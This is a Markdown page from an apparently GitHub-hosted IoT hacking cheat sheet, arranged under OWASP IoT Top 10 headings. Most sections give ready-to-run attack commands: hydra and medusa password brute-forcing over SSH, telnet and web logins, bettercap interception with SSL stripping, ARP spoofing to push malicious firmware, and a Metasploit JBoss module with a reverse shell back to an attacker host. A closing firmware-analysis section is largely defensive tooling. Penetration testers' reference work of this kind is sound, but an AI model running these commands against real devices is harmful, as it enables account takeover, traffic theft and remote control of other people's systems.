 ```yaml
---
title: IOT
sidebar: mydoc_sidebar
permalink: iot.html
folder: mydoc
---
```



## Weak Guessable, or Hardcoded Passwords

```
hydra -L usernames.txt -P passwords.txt ssh://192.168.0.1
```

or

```
medusa -u admin -P /usr/share/wordlists/rockyou.txt -h 192.168.0.1 -M ssh
```

## Insecure Network Services


```
hydra -L userlist.txt -P passlist.txt -e ns -t 16 telnet://target_IP
```


## Insecure Ecosystem Interfaces


This command instructs Bettercap to start intercepting traffic between two devices with IP addresses 192.168.0.10 and 192.168.0.20, and to perform a TCP proxy for HTTP and HTTPS traffic. The -X option enables SSL stripping, which downgrades HTTPS connections to HTTP, making the traffic vulnerable to interception and manipulation.


```
sudo bettercap --proxy --sniffer -T 192.168.0.10,192.168.0.20 -X --tcp-proxy
```


## Lack of Secure Update Mechanism

Exploiting Unauthenticated Firmware Updates:

```
curl -F "file=@malicious_firmware.bin" http://target_device/update
```

Man-in-the-Middle Attack:

```
arpspoof -i eth0 -t target_device_ip gateway_ip
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
mitmproxy -p 8080 -T --anticache -s "replace.py malicious_firmware.bin"
```

Fuzzing the Update Mechanism:

```
python3 firmware_fuzzer.py target_device_ip
```


## Use of Insecure or Outdated Components


This command uses the "http_jboss_jmx_invoke" module in Metasploit to scan for a vulnerable JBoss server running on port 8080 of the target device. If the vulnerability is found, the "java/jsp_shell_reverse_tcp" payload is used to establish a reverse shell connection back to the attacker's machine.



```
use auxiliary/scanner/http/http_jboss_jmx_invoke
set RHOSTS <target IP>
set RPORT 8080
set PAYLOAD java/jsp_shell_reverse_tcp
set LHOST <attacker IP>
set LPORT <attacker port>
exploit
```


## Insufficient Privacy Protection


This command captures all network traffic on the device's wireless interface (wlan0) and saves it to a file called capture.pcap. The attacker can then use Wireshark or another network analysis tool to examine the captured traffic for sensitive information, such as login credentials or personal data.



```
sudo tcpdump -i wlan0 -s 0 -w capture.pcap
```

or


This command launches BetterCAP on the device's wireless interface (wlan0) and enables the proxy module, which allows the attacker to intercept and modify network traffic in real-time. The attacker can then use this to capture sensitive information or inject malicious payloads into the network traffic.


```
sudo bettercap -I wlan0 --proxy
```

## Insecure Data Transfer and Storage


In this command, mitmproxy is a popular tool for performing MITM attacks. The --host option tells mitmproxy to intercept traffic to and from the target device, and the -R option specifies the URL of the device's API endpoint. The --ssl-insecure option disables SSL certificate verification, allowing the attacker to intercept encrypted traffic.

The -s option specifies a custom script, extract_sensitive_data.py, that extracts sensitive data from intercepted traffic. This script could use regular expressions or other techniques to search for and extract sensitive data from intercepted requests and responses.

```
mitmproxy -T --host -R https://target_device.com/ --ssl-insecure -s extract_sensitive_data.py
```




## Insecure Default Settings


```
hydra -l admin -P password_list.txt 192.168.1.1 http-post-form "/login.html:user=admin&password=^PASS^:Incorrect password"

```


## Firmware Analysis

```
file <bin>  
strings  
strings -n5 <bin> 
strings -n16 <bin>#longer than 16
strings -tx <bin> #print offsets in hex 
binwalk <bin>  
hexdump -C -n 512 <bin> > hexdump.out  
hexdump -C <bin> | head # might find signatures in header
fdisk -lu <bin> #lists a drives partition and filesystems if multiple
```

If the binary may be encrypted, check the entropy using binwalk with the following command:


```
binwalk -E <bin>
```

Use the following tools and methods to extract filesystem contents:

```
$ binwalk -ev <bin>
```

Firmware Analysis Comparison Toolkit (FACT )

EmbedOS - Embedded security testing operating system based on Ubuntu 18.04 preloaded with firmware security testing tools. The virtual machine can be downloaded and imported as an OVF file into VirtualBox or VMWare.
https://github.com/scriptingxss/EmbedOS



EMBA - Embedded Analyzer

```
sudo ./emba.sh -f ~/IoTGoat-x86.img.gz -l ~/emba_logs_iotgoat -p ./scan-profiles/default-scan.emba
```


firmware analysis toolkit

```
sudo python3 ./fat.py IoTGoat-rpi-2.img --qemu 2.5.0 
```




## resources

-	https://github.com/ahmedalroky/IOT-hacking-Roadmap
-	https://github.com/fkie-cad/awesome-embedded-and-iot-security
-	https://github.com/CyberSecurityUP/Awesome-Hardware-and-IoT-Hacking
-	https://github.com/nutc4k3/amazing-iot-security
-	https://github.com/ahmedalroky/IOT-hacking-Roadmap
-	https://owasp.org/www-chapter-pune/meetups/2019/August/IoT_Device_Pentest_by_Shubham_Chougule.pdf
-	https://github.com/scriptingxss/owasp-fstm




{% include links.html %}
